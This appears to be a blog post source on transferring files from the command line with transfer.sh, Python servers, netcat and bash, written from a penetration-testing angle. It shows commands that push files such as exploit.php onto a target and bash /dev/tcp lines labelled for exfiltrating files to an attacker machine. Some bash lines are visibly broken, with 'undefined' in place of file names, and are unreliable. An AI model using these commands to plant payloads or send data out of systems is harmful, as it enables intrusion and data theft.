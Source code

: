 ```yaml
---
title: 4 Ways To Quickly Transfer Files
publishedOn: Febuary 5th, 2023
slug: transfer-files
excerpt: I want to cover a few ways to easily transfer files inside the command line. My personal go to is a Python server and curl/wget request on the client side. I also really like curls --upload-file utility because it will actually present a QR code, sharable page, and a specific URL you can now use on the client side. Netcat's transfer is very easy as well but we will see all the different options in this blog article. I will list them in order of how I favor them. 
readingTime: 5 mins
---
```


# Transfering Files
----------------------------------

# **#1 Curl's Transfer.sh Utility**
My favorite(oddly for some reason) is Curl's Transfer.sh Utility. It's relatively new but for me has worked everywhere. It will upload it to a specific transfer.sh server. I like it because you do not need to mess with checking IP addresses, Ngrok,  being in or out of network, etc. It works 100% of the time, regardless of any of that. It will give you a sharable web page, QR code, and as soon as you finish the upload a link for that. You can also just use that link to make a curl request and download the file, which is what I typically do. 

The following command uploads the file to the transfer.sh servers...

`curl --upload-file ./file.txt https://transfer.sh/Myfile.txt`

***This will give a URL that looks something like this...***

`https://transfer.sh/A3a3KL/Myfile.txt`

To download the file on the client side, enter the following command...

`curl https://transfer.sh/<CodeFromAbove>/Myfile.txt -o Myfile.txt`

***-o for output, can be named anything.***
----------------------------------

# **#2 Python**
Python is the next easiest for me, just out of familiarity. Python3 specifically but both are easy.

*Anything written in python2 will almost always break in python3. So we also look at how to transfer a file using python3.*

----------------------------------
## **Python3**

In the case of python3, enter the following command to start a simple python server...

`python3 -m http.server 8080`

***^ Make sure you are in the correct directoy prior to starting server.***

To download the file on the target, enter the following command...

`wget http://192.168.43.177:8080/exploit.php`

----------------------------------
## **Python2**
----------
Switch to the directory where the file that you want to transfer exists. Start a simple python server. Enter the following command...

`python -m SimpleHTTPServer 8080`

Now go to the machine where you want to transfer the file. Use the following command to download the file...

`wget http://192.168.43.177:8080/stuxnet.php`

----------------------------------
# #3 Netcat
Netcat has always been an easy option for trasnfering and just about anything else.

Netcat is a powerful utility to transfer files from any remote machine to a local device. It may not always be installed. You can check whether it exists or not by entering...

`which nc`
`which netcat`

Make a netcat server with the following command...

`nc -nlvp 8080 < stuxnet.php`

Now go to the target machine and enter the following to download the file...

`nc -nv 192.168.43.177 8080 > stuxnet.php`

----------------------------------
# #4 Bash Upload
**I've never really used this method. Transfer.sh, Python, and Netcat work perfectly so I've never needed this. I have used similiar bash commands for reverse shells.**
### **Upload file over HTTP (require HTTP service running on the attacker machine)below...**

`bash -c 'echo -e "POST / HTTP/0.9 $(<undefined)" > /dev/tcp/127.0.0.1/6969'`
----------------------------
### **Exfiltrate file over TCP# Listen with Netcat on port 6969 + output redirection below...**

`bash -c 'cat undefined > /dev/tcp/<IPADDRESS>/6969'`

----------------------------
## Bash Download on Client Side

`bash -c 'cat < /dev/tcp/<IPADDRESS>/6969 > undefined'`